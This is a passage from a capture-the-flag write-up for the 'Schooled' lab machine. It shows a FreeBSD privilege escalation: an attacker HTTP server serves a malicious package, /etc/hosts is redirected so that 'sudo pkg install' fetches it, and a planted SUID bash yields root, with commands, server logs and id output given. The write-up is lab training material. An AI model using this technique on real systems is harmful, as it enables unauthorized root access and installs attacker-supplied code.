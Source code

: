 ```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now we can install the package after copying our modified `hosts` file over the real one.

```
jamie@Schooled:/tmp $ cp /home/jamie/hosts /etc/hosts &&  sudo pkg update && sudo pkg install mypackage
Updating FreeBSD repository catalogue...
Fetching meta.conf: 100%    163 B   0.2kB/s    00:01
Fetching packagesite.txz: 100%    472 B   0.5kB/s    00:01
Processing entries: 100%
FreeBSD repository update completed. 1 packages processed.
All repositories are up to date.
Updating FreeBSD repository catalogue...
FreeBSD repository is up to date.
All repositories are up to date.
The following 1 package(s) will be affected (of 0 checked):
Installed packages to be UPGRADED:
        mypackage: 1.1_5 -> 2.0_5

Number of packages to be upgraded: 1

632 B to be downloaded.

Proceed with this action? [y/N]: y
[1/1] Fetching mypackage-2.0_5.txz: 100%    632 B   0.6kB/s    00:01
Checking integrity... done (0 conflicting)
[1/1] Upgrading mypackage from 1.1_5 to 2.0_5...
[1/1] Extracting mypackage-2.0_5: 100%
Resetting root shell
Registering root shell
```

Upon updating and installing it we get hits for the files on our webserver.

```
10.129.186.182 - - [04/Apr/2021 16:28:51] "GET /packages/meta.conf HTTP/1.1" 200 -
10.129.186.182 - - [04/Apr/2021 16:28:51] "GET /packages/packagesite.txz HTTP/1.1" 200 -
10.129.186.182 - - [04/Apr/2021 16:28:53] "GET /packages/meta.conf HTTP/1.1" 304 -
10.129.186.182 - - [04/Apr/2021 16:28:53] "GET /packages/packagesite.txz HTTP/1.1" 304 -
10.129.186.182 - - [04/Apr/2021 16:28:55] "GET /packages/mypackage-2.0_5.txz HTTP/1.1" 200 -
```

The code got executed and we can use the suid bash to escalate to the root user.

```
jamie@Schooled:/tmp $ bash -p
[jamie@Schooled /tmp]# id
uid=1001(jamie) gid=1001(jamie) euid=0(root) egid=0(wheel) groups=0(wheel)
[jamie@Schooled /tmp]#
```

### FPM package
There is also another method involving pkg and fpm which is much quicker than the intended one. There was no entry for pkg in gtfobins at the time for release, but it got added later by a HTB user after doing the box.
